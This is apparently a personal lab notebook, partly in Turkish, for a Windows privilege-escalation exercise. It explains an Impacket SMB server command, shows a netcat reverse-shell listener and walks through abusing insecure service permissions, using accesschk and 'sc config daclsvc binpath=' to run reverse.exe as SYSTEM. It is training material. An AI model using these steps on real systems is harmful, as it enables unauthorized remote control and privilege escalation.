##### Bu komut, bir Python3 betiğini çalıştırarak Impacket adlı bir Python kütüphanesiyle gelen `smbserver.py` betiğini çalıştırır. Bu betik, SMB (Server Message Block) protokolünü kullanarak bir sunucu oluşturur. Komutun parametreleri şunlardır:

- `sudo`: Komutu yönetici (root) yetkileriyle çalıştırır. Bu, dosya sistemine erişim gibi özel izinler gerektiren işlemleri gerçekleştirmek için gereklidir.
- `python3`: Python 3 yorumlayıcısını çalıştırır.
- `/usr/share/doc/python3-impacket/examples/smbserver.py`: Impacket kütüphanesiyle birlikte gelen `smbserver.py` betiğinin tam yolunu belirtir. Bu betik, SMB sunucusunu başlatmak için kullanılır.
- `kali`: Sunucunun paylaşılan adını belirtir. Yani, sunucuya erişmek için kullanılacak olan ad.
- `.`: Sunucunun kök dizinini belirtir. Bu, sunucunun hangi dizindeki dosyaların paylaşıma açılacağını gösterir.

Bu komut, Kali Linux işletim sistemi üzerinde çalışan bir SMB sunucusunu başlatır ve mevcut dizini (`.`) paylaşıma açar. Bu sayede, bir başka bilgisayar ağındaki bu sunucuya erişebilir ve paylaşılan dosyalara erişim sağlayabilirsiniz.

![[Pasted image 20240425012914.png]]

![[Pasted image 20240425013136.png]]


### nc -nvlp 53
![[Pasted image 20240425013232.png]]
![[Pasted image 20240425013324.png]]

## Service Exploits - Insecure Service Permissions
### accesschk.exe  #erişim-izni
![[Pasted image 20240425014514.png]]
### accesschk.exe /accepteula -uwcqv user daclsvc
![[Pasted image 20240425014641.png]]
![[Pasted image 20240425013534.png]]

# Note that the "user" account has the permission to change the service config (SERVICE_CHANGE_CONFIG)

### Query the service and note that it runs with SYSTEM privileges (SERVICE_START_NAME):

## sc qc daclsvc
![[Pasted image 20240425014754.png]]
## sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""
![[Pasted image 20240425014844.png]]
